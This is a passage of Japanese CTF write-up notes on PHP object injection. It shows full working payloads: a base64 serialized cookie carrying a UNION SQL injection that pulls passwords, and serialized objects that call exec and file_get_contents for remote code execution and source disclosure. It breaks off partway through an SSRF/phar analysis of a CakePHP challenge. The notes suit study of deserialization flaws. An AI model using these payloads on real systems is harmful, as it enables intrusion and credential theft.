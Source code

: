 ```php
}

$ex1 = new SQL();
echo serialize($ex1)."\n";
echo base64_encode(serialize($ex1))."\n";

// 出力
// O:3:"SQL":1:{s:5:"query";s:89:"SELECT username FROM users WHERE id=-1 union select password from users users2 where id=1";}
// TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODk6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPS0xIHVuaW9uIHNlbGVjdCBwYXNzd29yZCBmcm9tIHVzZXJzIHVzZXJzMiB3aGVyZSBpZD0xIjt9 
```
これを`$_COOKIE['leet_hax0r']`にセットすると以下のようにFlagをゲット！  
![image](https://user-images.githubusercontent.com/56021519/104460136-08ea8a80-55f1-11eb-8b2d-0901870afec1.png)　　
- **payload**  
```txt
Cookie: leet_hax0r=TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODk6IlNFTEVDVCB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPS0xIHVuaW9uIHNlbGVjdCBwYXNzd29yZCBmcm9tIHVzZXJzIHVzZXJzMiB3aGVyZSBpZD0xIjt9=
```
## RCE in PHP Object injetcion (Web 1 Kaspersky Industrial CTF 2018)
https://medium.com/@awidardi/web-1-kaspersky-industrial-ctf-2018-95af27db6b2  
- **entrypoint**  
`1+2`とかを計算できるWebサイトがあって、入力すると以下のようなオブジェクトを作成して実行できる。この文字列を表示する機能と文字列を与えてデシリアライズして計算できる機能がある。  
```txt
// 1+2
:10:”Expression”:3:{s:14:” Expression op”;s:3:”sum”;s:18:” Expression params”;a:2:{i:0;d:1;i:1;d:2;}s:9:”stringify”;s:5:”1 + 2";}

// 2/0
O:10:”Expression”:3:{s:14:” Expression op”;s:3:”div”;s:18:” Expression params”;a:2:{i:0;d:2;i:1;d:0;}s:9:”stringify”;s:5:”2 / 0";}
```
ここの、`div`の部分がメソッド名にあたり、`{i:0;d:2;i:1;d:0;}`が引数にあたる。  
なので、`exec`,`ls -al`とかに書き換えればRCEできる！  
以下で`file_get_contents`,`index.php`でソースを表示できる！  
```txt
O:10:”Expression”:3:{s:14:” Expression op”;s:17:”file_get_contents”;s:18:” Expression params”;s:9:”index.php”;s:9:”stringify”;s:5:”2 / 0";}
```
- **payload**  
```txt
O:10:”Expression”:3:{s:14:” Expression op”;s:4:”exec”;s:18:” Expression params”;s:6:”ls -la”;s:9:”stringify”;s:5:”2 / 0";}
```
## Local File Disclosure / phar:// / file_get_contetns (hitcon2018 baby-cake)
https://github.com/PDKT-Team/ctf/tree/master/hitcon2018/baby-cake  
https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge  
- **entrypoint**  
CAKE PHPで書かれたソースが配布される。  
mainの処理は`src/Controller/PagesController.php`に書かれている。  
`cache_get($key)`の中に`unserialize`があって脆弱性があるっぽいが、その中には`cache_set`で`serialize($response->headers)`でシリアライズした文字列しか入りえないので脆弱ではない。  
`display(...$path)`関数の中の`$response = $this->httpclient($method, $url, $headers, $data);`で`?url=`に指定したURLに`?data`で指定したdataを伴ってアクセスしてくれるらしい。  
つまり、例えばPOSTで`/?url=http://IP&data=test`とアクセスすれば、このWebサーバーが`http://IP`に対して`data=test`をデータとしてPOSTリクエストでアクセスしてくれるっぽい。  
`if ( !in_array($method, ['get', 'post', 'put', 'delete', 'patch']) )`でホワイトリストでプロトコルをチェックしているので、`phar://`みたいにアクセスさせることはできない…  
`$response = $this->httpclient($method, $url, $headers, $data);`で`httpclient`メソッドの中の`new Client()`でCLientインスタンスを作成している。  